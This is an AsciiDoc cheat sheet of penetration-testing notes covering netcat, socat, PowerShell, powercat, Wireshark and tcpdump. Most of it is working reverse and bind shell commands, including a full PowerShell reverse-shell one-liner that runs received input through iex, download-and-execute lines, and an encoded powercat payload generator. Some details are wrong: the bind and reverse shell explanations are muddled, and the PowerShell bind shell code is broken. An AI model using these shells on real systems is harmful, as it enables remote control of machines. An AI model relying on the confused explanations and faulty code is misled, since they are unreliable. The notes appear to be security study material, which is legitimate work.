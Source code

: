= Practical Tools

== Netcat

* `nc <IP> <PORT>`
** `nc -n` skip DNS resolution
** `nc -v` verbose
** `nc -l` for creating listener
** `nc -p` for creating the port

=== Transfer files

* `nc -nvlp <PORT> < <file>` to open a listener that sends a file
* `nc <IP> <PORT> > <file>` to output the file

=== Bind & Reverse shell 

A reverse shell is a shell initiated from the target host back to the attack box which is in a listening state to pick up the shell. 
A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attack box.

The difference is that a bind shell can circumvent a firewall.

* `nc -nvlp <PORT> -e cmd.exe` (or `/bin/bash`) on target.
* `nc <target_IP> <PORT>` on attack machine.

This is binding a local PORT's IO to the STDIN/STDOUT/STDERR of a file locally, to which any attack machine can connect to.
This is then a bind shell.

* `nc -nvlp <PORT>` on target machine
* `nc -nv <target_IP> <PORT> -e cmd.exe` (or `/bin/bash`) on target
This is a reverse shell.

== SOCAT

Socat creates two bidirectional byte streams and transfers data between them.

* `socat - TCP4:<IP>:<PORT>`
* `socat - TCP4-LISTEN:<PORT> STDOUT` creates a listener to the STDOUT of a port
* `socat TCP4-LISTEN:<PORT>,fork file:<file>` creates a child process to send a file
* `socat TCP4:<IP>:443 file:<file>,create` receives bytes and creates a file with them
* `socat -d -d` for verbose
* `socat TCP4:<IP>:<PORT> EXEC:/bin/bash` for reverse shell
* `socat TCP4-LISTEN:<PORT>,fork EXEC:cmd.exe,pipes` for Windows bind shell
* `socat -` the hyphen represents the STDIO

=== Encrypted bind shells

* `openssl req -newkey rsa:2048 -nodes -keyout <keyfile.key> -x509 -days 365 -out <file.crt>` to create a new self-signed certificate with a new private key outputted to keyfile
* `cat <keyfile.key> <file.crt> > <pemfile>`
* `socat OPENSSL-LISTEN:443,cert=<pemfile>,verify=0,fork EXEC:/bin/bash` creates a listener with a certificate, disable verification and spawns a child to send an
* `socat - OPENSSL:<IP>:<PORT>,verify=0`

== Powershell

* `Set-ExecutionPolicy Unrestricted` changes execution policy
* `powershell -c "(new-object System.Net.WebClient).DownloadFile('<URL>', '<absolute-path>')"` downloads a file
* `iex $data` executes the command passed to it

=== Reverse shell

Use the following command as a powershell oneliner to send a reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('<IP>',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

Oneliner here:
`$client = New-Object System.Net.Sockets.TCPClient('<IP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();`

=== Bind shell

```
$listener = New-Object System.Net.Sockets.TCPClient('0.0.0.0',443);
listener.start();$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
$listener.Stop();
```

In one line
`$listener = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()`

== Powercat

* In Kali, `powercat` is found at `/usr/share/powercat`
* `. ./powercat.ps1` to source the script
* `powercat -c <IP> -p <PORT> -i <file>` to transfer file to remote

=== Reverse shell

* `powercat -c <IP> -p 443 -e cmd.exe` to execute cmd when connected, e.g. reverse shell

=== Bind shell

* `powercat -l` to create listener
* `powercat -l -p <PORT> -e cmd.exe` creates a listener that an attacker can connect to

=== Powercat payloads

* `powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1` creates a Base64 encoded payload that powercat can execute

== Wireshark

=== Capture filters

`net <subnet>` => `net 10.11.1.0/24`

=== Display filters

`tcp.port == 21` (to find FTP packets only)

== TCPDump

=== Looking for traffic

* `tcpdump -D` to display all available interfaces
* `tcpdump -i <interface>` to capture traffic on one interface

=== Filtering traffic

* `tcpdump -n` skips DNS
* `tcpdump -r <*.pcap>` to read pcap file
* `tcpdump src/dst host <IP>` to filter on source or destination host IP
* `tcpdump port <PORT>` to filter by port used
* `tcpdump -nX` to print in hex and ascii format

=== TCP Packet diagram

image::practical_tools/tcp_packet_diagram.png[]

Data packets have the `ACK` & `PSH` flags on in HTTP header. 
Therefore, we look for TCP header = 0x24

`ACK` = on after the three-way handshake
`PSH` = usually set to avoid buffering by Applications, by enforcing immediate delivery of packet

* `tcpdump -A` to print in ascii format
* `tcpdump 'tcp[13] = 24' to filter with display filter


